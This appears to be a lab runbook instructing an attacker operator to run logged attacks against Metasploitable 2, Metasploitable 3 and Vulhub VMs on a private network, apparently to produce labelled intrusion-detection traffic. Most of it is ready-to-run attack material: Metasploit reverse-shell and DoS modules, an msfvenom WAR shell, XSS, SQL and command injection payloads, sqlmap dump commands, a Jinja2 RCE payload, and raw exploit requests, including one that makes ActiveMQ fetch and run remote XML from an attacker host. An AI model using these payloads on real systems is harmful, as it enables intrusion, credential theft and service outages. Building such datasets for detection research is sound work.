




# Attacker 2 — Attack Instructions

**Attacker ID:** `attacker_2`  
**Source IP:** `<src-ip>`

---

## Metasploitable 2

**Target IP:** `192.168.77.222`

### 0. Initial Full Port Scan

**Name:** `nmap-full-portscan`  
**Target port:** 1-65535 / TCP

**Port Scan:**

```bash
attacklog start --name nmap-full-portscan --dst-ip 192.168.77.222 --dst-port 1-65535
```

```bash
nmap -p- 192.168.77.222
```

```bash
attacklog end --status ran
```

---

note: More attacks will be added before the infrastructure is ready.

### 1. Unix R-Services Reverse Shell

**Name:** `ms2-rservices-revshell`  
**Target port:** 513 / TCP

**Port Scan:**

```bash
attacklog start --name ms2-rservices-portscan --dst-ip 192.168.77.222 --dst-port 513
```

```bash
nmap -p 513 192.168.77.222
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms2-rservices-revshell --dst-ip 192.168.77.222 --dst-port 513
```

```bash
rlogin -l root 192.168.77.222
```

```bash
attacklog end --status <success|ran|error>
```

---

### 2. UnrealIRCD Backdoor Reverse Shell

**Name:** `ms2-unrealircd-revshell`  
**Target port:** 6667 / TCP

**Port Scan:**

```bash
attacklog start --name ms2-unrealircd-portscan --dst-ip 192.168.77.222 --dst-port 6667
```

```bash
nmap -p 6667 192.168.77.222
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms2-unrealircd-revshell --dst-ip 192.168.77.222 --dst-port 6667
```

```
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST 192.168.77.222
set RPORT 6667
set LHOST <your_ip>
set LPORT 4444
set payload cmd/unix/reverse
exploit
```

```bash
attacklog end --status <success|ran|error>
```

---

### 3. DVWA XSS Reflected

**Name:** `ms2-dvwa-xss-reflected`  
**Target port:** 80 / TCP

**Port Scan:**

```bash
attacklog start --name ms2-dvwa-xss-reflected-portscan --dst-ip 192.168.77.222 --dst-port 80
```

```bash
nmap -p 80 192.168.77.222
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms2-dvwa-xss-reflected --dst-ip 192.168.77.222 --dst-port 80
```

Navigate to the DVWA XSS (Reflected) page and inject into the input field:

**Low / Medium:**

```
<svg onload=alert('Example')>
```

**High:** same payload, same bypass.

```bash
attacklog end --status <success|ran|error>
```

---

### 4. DVWA XSS Stored

**Name:** `ms2-dvwa-xss-stored`  
**Target port:** 80 / TCP

**Port Scan:**

```bash
attacklog start --name ms2-dvwa-xss-stored-portscan --dst-ip 192.168.77.222 --dst-port 80
```

```bash
nmap -p 80 192.168.77.222
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms2-dvwa-xss-stored --dst-ip 192.168.77.222 --dst-port 80
```

Navigate to the DVWA XSS (Stored) page.

**Low** - inject into message field:

```
<script>alert('example')</script>
```

**Medium** - expand the `Name` field's maxlength in browser DevTools, then inject into name:

```

```

**High:** not bypassable.

```bash
attacklog end --status <success|ran|error>
```

---

### 5. DVWA Command Injection

**Name:** `ms2-dvwa-cmdinject`  
**Target port:** 80 / TCP

**Port Scan:**

```bash
attacklog start --name ms2-dvwa-cmdinject-portscan --dst-ip 192.168.77.222 --dst-port 80
```

```bash
nmap -p 80 192.168.77.222
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms2-dvwa-cmdinject --dst-ip 192.168.77.222 --dst-port 80
```

Navigate to the DVWA Command Execution page.

**Low:**

```
127.0.0.1 && whoami
```

**Medium:**

```
127.0.0.1 | whoami
```

```bash
attacklog end --status <success|ran|error>
```

---

### 6. DVWA File Inclusion (LFI)

**Name:** `ms2-dvwa-lfi`  
**Target port:** 80 / TCP

**Port Scan:**

```bash
attacklog start --name ms2-dvwa-lfi-portscan --dst-ip 192.168.77.222 --dst-port 80
```

```bash
nmap -p 80 192.168.77.222
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms2-dvwa-lfi --dst-ip 192.168.77.222 --dst-port 80
```

**Low:**

```
http://192.168.77.222/dvwa/vulnerabilities/fi/?page=../../../../../../etc/passwd
```

```bash
attacklog end --status <success|ran|error>
```

---

### 7. DVWA SQL Injection (Manual)

**Name:** `ms2-dvwa-sqli-manual`  
**Target port:** 80 / TCP

**Port Scan:**

```bash
attacklog start --name ms2-dvwa-sqli-manual-portscan --dst-ip 192.168.77.222 --dst-port 80
```

```bash
nmap -p 80 192.168.77.222
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms2-dvwa-sqli-manual --dst-ip 192.168.77.222 --dst-port 80
```

Navigate to the DVWA SQL Injection page.

**Low:**

```
1' or 1 = '1
```

Dump column names:

```
'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users'#
```

Dump credentials:

```
' UNION SELECT user, password FROM users#
```

**Medium:**

```
1 UNION SELECT user, password FROM users#
```

```bash
attacklog end --status <success|ran|error>
```

---

### 8. Mutillidae SQLMap

**Name:** `ms2-mutillidae-sqlmap`  
**Target port:** 80 / TCP

**Port Scan:**

```bash
attacklog start --name ms2-mutillidae-sqlmap-portscan --dst-ip 192.168.77.222 --dst-port 80
```

```bash
nmap -p 80 192.168.77.222
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms2-mutillidae-sqlmap --dst-ip 192.168.77.222 --dst-port 80
```

Run one or more of the following. Pick based on what traffic pattern is needed:

**Basic scan:**

```bash
sqlmap -u "http://192.168.77.222/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username,password --batch
```

**Boolean-based blind:**

```bash
sqlmap -u "http://192.168.77.222/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username --technique=B --batch --level=3
```

**Time-based blind:**

```bash
sqlmap -u "http://192.168.77.222/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username --technique=T --batch --level=3
```

**Error-based:**

```bash
sqlmap -u "http://192.168.77.222/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username --technique=E --batch --level=3
```

**UNION-based:**

```bash
sqlmap -u "http://192.168.77.222/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username --technique=U --batch --level=3 --union-cols=3-6
```

**Full dump (aggressive):**

```bash
sqlmap -u "http://192.168.77.222/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username --batch --dbs --tables --dump --level=5 --risk=3
```

```bash
attacklog end --status <success|ran|error>
```

---


## Metasploitable 3

**Target IP:** `192.168.77.240`

### 0. Initial Full Port Scan

**Name:** `nmap-full-portscan`  
**Target port:** 1-65535 / TCP

**Port Scan:**

```bash
attacklog start --name nmap-full-portscan --dst-ip 192.168.77.240 --dst-port 1-65535
```

```bash
nmap -p- 192.168.77.240
```

```bash
attacklog end --status ran
```

---

note: More attacks will be added before the infrastructure is ready.
### 9. GlassFish Reverse Shell

**Name:** `ms3-glassfish-revshell`  
**Target port:** 4848 / TCP

**Port Scan:**

```bash
attacklog start --name ms3-glassfish-portscan --dst-ip 192.168.77.240 --dst-port 4848
```

```bash
nmap -p 4848 192.168.77.240
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms3-glassfish-revshell --dst-ip 192.168.77.240 --dst-port 4848
```

Generate the payload:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your_ip> LPORT=4444 -f war -o shell.war
```

Start a listener:

```
use exploit/multi/handler
set PAYLOAD java/jsp_shell_reverse_tcp
set LHOST <your_ip>
set LPORT 4444
run
```

Upload via the GlassFish admin panel at `http://192.168.77.240:4848` (credentials: `admin / sploit`):

1. Left panel -> **Applications** -> **Deploy**
2. Browse and select `shell.war` -> **OK**

Trigger the shell:

```bash
curl http://192.168.77.240:8080/shell/
```

```bash
attacklog end --status <success|ran|error>
```

---

### 10. Jenkins Reverse Shell

**Name:** `ms3-jenkins-revshell`  
**Target port:** 8484 / TCP

**Port Scan:**

```bash
attacklog start --name ms3-jenkins-portscan --dst-ip 192.168.77.240 --dst-port 8484
```

```bash
nmap -p 8484 192.168.77.240
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms3-jenkins-revshell --dst-ip 192.168.77.240 --dst-port 8484
```

```
use exploit/multi/http/jenkins_script_console
set RHOSTS 192.168.77.240
set RPORT 8484
set LHOST <your_ip>
set LPORT 4447
set PAYLOAD windows/meterpreter/reverse_tcp
set TARGETURI /script
exploit
```

```bash
attacklog end --status <success|ran|error>
```

---

### 11. IIS HTTP Denial of Service (CVE-2015-1635)

**Name:** `ms3-iis-http-dos`  
**Target port:** 80 / TCP

**Port Scan:**

```bash
attacklog start --name ms3-iis-http-dos-portscan --dst-ip 192.168.77.240 --dst-port 80
```

```bash
nmap -p 80 192.168.77.240
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms3-iis-http-dos --dst-ip 192.168.77.240 --dst-port 80
```

```
use auxiliary/dos/http/ms15_034_ulonglongadd
set RHOSTS 192.168.77.240
set RPORT 80
run
```

```bash
attacklog end --status <success|ran|error>
```

---

### 12. IIS FTP Wordlist Login Attack

**Name:** `ms3-iis-ftp-wordlist`  
**Target port:** 21 / TCP

**Port Scan:**

```bash
attacklog start --name ms3-iis-ftp-wordlist-portscan --dst-ip 192.168.77.240 --dst-port 21
```

```bash
nmap -p 21 192.168.77.240
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms3-iis-ftp-wordlist --dst-ip 192.168.77.240 --dst-port 21
```

```
use auxiliary/scanner/ftp/ftp_login
set RHOSTS 192.168.77.240
set RPORT 21
set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run
```

```bash
attacklog end --status <success|ran|error>
```

---

### 13. ElasticSearch Reverse Shell (CVE-2014-3120)

**Name:** `ms3-elasticsearch-revshell`  
**Target port:** 9200 / TCP

**Port Scan:**

```bash
attacklog start --name ms3-elasticsearch-portscan --dst-ip 192.168.77.240 --dst-port 9200
```

```bash
nmap -p 9200 192.168.77.240
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms3-elasticsearch-revshell --dst-ip 192.168.77.240 --dst-port 9200
```

```
use exploit/multi/elasticsearch/script_mvel_rce
set RHOSTS 192.168.77.240
set RPORT 9200
set LHOST <your_ip>
set LPORT 4444
set PAYLOAD java/meterpreter/reverse_tcp
run
```

```bash
attacklog end --status <success|ran|error>
```

---

### 14. SNMP Enumeration

**Name:** `ms3-snmp-enum`  
**Target port:** 161 / UDP

**Port Scan:**

```bash
attacklog start --name ms3-snmp-portscan --dst-ip 192.168.77.240 --dst-port 161 --protocol udp
```

```bash
nmap -sU -p 161 192.168.77.240
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms3-snmp-enum --dst-ip 192.168.77.240 --dst-port 161 --protocol udp
```

```
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS 192.168.77.240
set RPORT 161
set COMMUNITY public
set VERSION 1
run
```

```bash
attacklog end --status <success|ran|error>
```

---

### 15. JMX Reverse Shell (CVE-2015-2342)

**Name:** `ms3-jmx-revshell`  
**Target port:** 1617 / TCP

**Port Scan:**

```bash
attacklog start --name ms3-jmx-portscan --dst-ip 192.168.77.240 --dst-port 1617
```

```bash
nmap -p 1617 192.168.77.240
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name ms3-jmx-revshell --dst-ip 192.168.77.240 --dst-port 1617
```

```
use exploit/multi/misc/java_jmx_server
set RHOSTS 192.168.77.240
set RPORT 1617
set LHOST <your_ip>
set LPORT 4444
set payload java/meterpreter/reverse_tcp
run
```

```bash
attacklog end --status <success|ran|error>
```

---


## VulnHub

Note: all of this attacks are from https://github.com/vulhub/vulhub

### VM: CSAD-Vulhub-3-1

**Target IP:** `192.168.77.237`

### 0. Initial Full Port Scan

**Name:** `nmap-full-portscan`  
**Target port:** 1-65535 / TCP

**Port Scan:**

```bash
attacklog start --name nmap-full-portscan --dst-ip 192.168.77.237 --dst-port 1-65535
```

```bash
nmap -p- 192.168.77.237
```

```bash
attacklog end --status ran
```

---

### 18. Apache Airflow Celery Broker Remote Command Execution (CVE-2020-11981)

**Name:** `vulnhub-airflow-cve-2020-11981`  
**Target port:** 6379 / TCP

**Port Scan:**

```bash
attacklog start --name vulnhub-airflow-cve-2020-11981-portscan --dst-ip 192.168.77.237 --dst-port 6379
```

```bash
nmap -p 6379 192.168.77.237
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name vulnhub-airflow-cve-2020-11981 --dst-ip 192.168.77.237 --dst-port 6379
```

In Apache Airflow prior to 1.10.10, if the Redis broker has been controlled by an attacker, the attacker can execute arbitrary commands in the worker process.

#### Environment Setup

```bash
#Initialize the database
docker compose run airflow-init

#Start service
docker compose up -d
```

#### Exploit

The Redis port 6379 is exposed on the network. Through Redis, add the evil task `airflow.executors.celery_executor.execute_command` to the queue to execute arbitrary commands.

Use the exploit script to run `touch /tmp/airflow_celery_success`:

```
pip install redis
python exploit_airflow_celery.py 192.168.77.237
```

Check the logs:

```bash
docker compose logs airflow-worker
```


Verify the command was executed:

```
docker compose exec airflow-worker ls -l /tmp
```


```bash
attacklog end --status <success|ran|error>
```

---

---

### 19. 1Panel Control Panel PostAuth SQL Injection (CVE-2024-39907)

**Name:** `vulnhub-1panel-cve-2024-39907`  
**Target port:** 10086 / TCP

**Port Scan:**

```bash
attacklog start --name vulnhub-1panel-cve-2024-39907-portscan --dst-ip 192.168.77.237 --dst-port 10086
```

```bash
nmap -p 10086 192.168.77.237
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name vulnhub-1panel-cve-2024-39907 --dst-ip 192.168.77.237 --dst-port 10086
```

CVE-2024-39907 is a collection of SQL injection vulnerabilities in the 1Panel control panel. Insufficient filtering allows attackers to achieve arbitrary file writes and ultimately remote code execution. Affects 1Panel v1.10.9-lts and earlier, patched in v1.10.12-lts.

#### Environment Setup

```
docker compose up -d
```

After the server starts, access `http://192.168.77.237:10086/entrance` with credentials `1panel` / `1panel_password`.

#### Vulnerability Reproduction

After logging in, send the following malicious POST request. The `orderBy` parameter in `/api/v1/hosts/command/search` lacks proper input validation, allowing SQL injection:

```
POST /api/v1/hosts/command/search HTTP/1.1
Host: 192.168.77.237:10086
Accept-Language: zh
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Cookie: psession=your-session-cookie
Connection: close
Content-Type: application/json
Content-Length: 83

{
  "page":1,
  "pageSize":10,
  "groupID":0,
  "orderBy":"3;ATTACH DATABASE '/tmp/randstr.txt' AS test;create TABLE test.exp (data text);create TABLE test.exp (data text);drop table test.exp;",
  "order":"ascending",
  "name":"a"
}
```


```bash
attacklog end --status <success|ran|error>
```

---

---

### 16. Flask (Jinja2) Server-Side Template Injection

**Name:** `vulnhub-flask-ssti`  
**Target port:** 8000 / TCP

**Port Scan:**

```bash
attacklog start --name vulnhub-flask-ssti-portscan --dst-ip 192.168.77.237 --dst-port 8000
```

```bash
nmap -p 8000 192.168.77.237
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name vulnhub-flask-ssti --dst-ip 192.168.77.237 --dst-port 8000
```

Flask is a popular Python web framework that uses Jinja2 as its template engine. A Server-Side Template Injection (SSTI) vulnerability can occur when user input is directly rendered in Jinja2 templates without proper sanitization, potentially leading to remote code execution.

#### Environment Setup

```
docker compose up -d
```

After the server starts, visit `http://192.168.77.237:8000/` to view the default page.

#### Vulnerability Reproduction

First, verify the SSTI vulnerability exists by visiting:

```
http://192.168.77.237:8000/?name={{233*233}}
```

If you see the result `54289`, it confirms the presence of the SSTI vulnerability.

To achieve remote code execution, use the following POC that obtains the `eval` function and executes arbitrary Python code:

```python


  
  
    
      {{ b['eval']('__import__("os").popen("id").read()') }}
    
  
  


```

Visit the following URL (with the POC URL-encoded) to execute the command:

```
http://192.168.77.237:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

The command execution result will be displayed:


```bash
attacklog end --status <success|ran|error>
```

---

---

### VM: CSAD-Vulhub-4-1

**Target IP:** `192.168.77.238`

### 0. Initial Full Port Scan

**Name:** `nmap-full-portscan`  
**Target port:** 1-65535 / TCP

**Port Scan:**

```bash
attacklog start --name nmap-full-portscan --dst-ip 192.168.77.238 --dst-port 1-65535
```

```bash
nmap -p- 192.168.77.238
```

```bash
attacklog end --status ran
```

---

### 24. Apache CXF Aegis DataBinding SSRF (CVE-2024-28752)

**Name:** `vulnhub-apache-cxf-cve-2024-28752`  
**Target port:** 8080 / TCP

**Port Scan:**

```bash
attacklog start --name vulnhub-apache-cxf-cve-2024-28752-portscan --dst-ip 192.168.77.238 --dst-port 8080
```

```bash
nmap -p 8080 192.168.77.238
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name vulnhub-apache-cxf-cve-2024-28752 --dst-ip 192.168.77.238 --dst-port 8080
```

A SSRF vulnerability in Apache CXF before versions 4.0.4, 3.6.3 and 3.5.8 using Aegis DataBinding allows an attacker to make the server send requests to arbitrary URLs, potentially leading to information disclosure or further attacks against internal systems.

#### Environment Setup

```
docker compose up -d
```

After the service starts, the vulnerable CXF webservice is accessible at `http://192.168.77.238:8080/test?wsdl`.

#### Vulnerability Reproduction

Send this request to the server:

```
POST /test HTTP/1.1
Host: 192.168.77.238:8080
Content-Type: multipart/related; boundary=----kkkkkk123123213
Content-Length: 472
Connection: close

------kkkkkk123123213
Content-Disposition: form-data; name="1"

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://service.namespace/">
   <soapenv:Header/>
   <soapenv:Body>
      <web:test>
         <arg0>
<count><xop:Include xmlns:xop="http://www.w3.org/2004/08/xop/include" href="file:///etc/hosts"></xop:Include></count>
</arg0>
      </web:test>
   </soapenv:Body>
</soapenv:Envelope>
------kkkkkk123123213--
```



```bash
attacklog end --status <success|ran|error>
```

#### Notes from Jovan

###### request:
```
curl -X POST "http://your-ip:8080/test" \
  -H "Content-Type: multipart/related; boundary=----kkkkkk123123213" \
  -H "Connection: close" \
  --data-binary $'------kkkkkk123123213\r
Content-Disposition: form-data; name="1"\r
\r
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://service.namespace/">\r
   <soapenv:Header/>\r
   <soapenv:Body>\r
      <web:test>\r
         <arg0>\r
<count><xop:Include xmlns:xop="http://www.w3.org/2004/08/xop/include" href="file:///etc/hosts"></xop:Include></count>\r
</arg0>\r
      </web:test>\r
   </soapenv:Body>\r
</soapenv:Envelope>\r
------kkkkkk123123213--\r
'
```

---

---

### 21. Apache ActiveMQ Jolokia Remote Code Execution (CVE-2026-34197)

**Name:** `vulnhub-activemq-cve-2026-34197`  
**Target port:** 8161 / TCP

**Port Scan:**

```bash
attacklog start --name vulnhub-activemq-cve-2026-34197-portscan --dst-ip 192.168.77.238 --dst-port 8161
```

```bash
nmap -p 8161 192.168.77.238
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name vulnhub-activemq-cve-2026-34197 --dst-ip 192.168.77.238 --dst-port 8161
```

CVE-2026-34197 is an authenticated RCE vulnerability in Apache ActiveMQ before 5.19.4 and 6.0.0 before 6.2.3. The Jolokia JMX-HTTP bridge exposes `addNetworkConnector(String)` on the Broker MBean. An authenticated attacker can invoke this operation with a crafted `vm://` transport URI containing a `brokerConfig` parameter pointing to a remote Spring XML configuration file, triggering arbitrary code execution during bean instantiation.

#### Environment Setup

```
docker compose up -d
```

After the server starts, visit `http://192.168.77.238:8161` and log in with `admin` / `admin`.

#### Vulnerability Reproduction

Without credentials the Jolokia API returns 401 Unauthorized:


Start an HTTP server on the attacker machine to serve a malicious Spring XML configuration file (e.g., executes `id > /tmp/success`):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
       http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value><![CDATA[id > /tmp/success]]></value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

Start the HTTP server in the same directory as `poc.xml`:

```
python3 -m http.server 80
```

Send the following request to invoke `addNetworkConnector` on the Broker MBean (replace `<your_ip>` with the attacker's HTTP server address):

```
POST /api/jolokia/ HTTP/1.1
Host: 192.168.77.238:8161
Content-Type: application/json
Authorization: Basic YWRtaW46YWRtaW4=

{"type":"exec","mbean":"org.apache.activemq:type=Broker,brokerName=localhost","operation":"addNetworkConnector(java.lang.String)","arguments":["static:(vm://evil?brokerConfig=xbean:http://<your_ip>/poc.xml)"]}
```



Verify the command was executed inside the container:

```
docker compose exec activemq ls -al /tmp/
docker compose exec activemq cat /tmp/success
```



```bash
attacklog end --status <success|ran|error>
```

#### Notes from Jovan

###### request:
```
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Content-Type: application/json
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 220

{"type":"exec","mbean":"org.apache.activemq:type=Broker,brokerName=localhost","operation":"addNetworkConnector(java.lang.String)","arguments":["static:(vm://evil?brokerConfig=xbean:http://host.docker.internal/poc.xml)"]}
```

---

---

### 25. Apache Druid Embedded JavaScript Remote Code Execution (CVE-2021-25646)

**Name:** `vulnhub-apache-druid-cve-2021-25646`  
**Target port:** 8888 / TCP

**Port Scan:**

```bash
attacklog start --name vulnhub-apache-druid-cve-2021-25646-portscan --dst-ip 192.168.77.238 --dst-port 8888
```

```bash
nmap -p 8888 192.168.77.238
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name vulnhub-apache-druid-cve-2021-25646 --dst-ip 192.168.77.238 --dst-port 8888
```

In Apache Druid 0.20.0 and earlier, it is possible for an authenticated user to send a specially-crafted request that forces Druid to run user-provided JavaScript code regardless of server configuration. This can be leveraged to execute code on the target machine with the privileges of the Druid server process.

#### Environment Setup

```
docker compose up -d
```

After the server starts, access the Druid home page at `http://192.168.77.238:8888`.

#### Exploit

Send this request to execute the `id` command:

```
POST /druid/indexer/v1/sampler HTTP/1.1
Host: 192.168.77.238:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json

{
    "type":"index",
    "spec":{
        "ioConfig":{
            "type":"index",
            "firehose":{
                "type":"local",
                "baseDir":"/etc",
                "filter":"passwd"
            }
        },
        "dataSchema":{
            "dataSource":"test",
            "parser":{
                "parseSpec":{
                "format":"javascript",
                "timestampSpec":{

                },
                "dimensionsSpec":{

                },
                "function":"function(){var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec([\"sh\",\"-c\",\"id\"]).getInputStream()).useDelimiter(\"\\A\").next();return {timestamp:123123,test: a}}",
                "":{
                    "enabled":"true"
                }
                }
            }
        }
    },
    "samplerConfig":{
        "numRows":10
    }
}
```



```bash
attacklog end --status <success|ran|error>
```

---

---
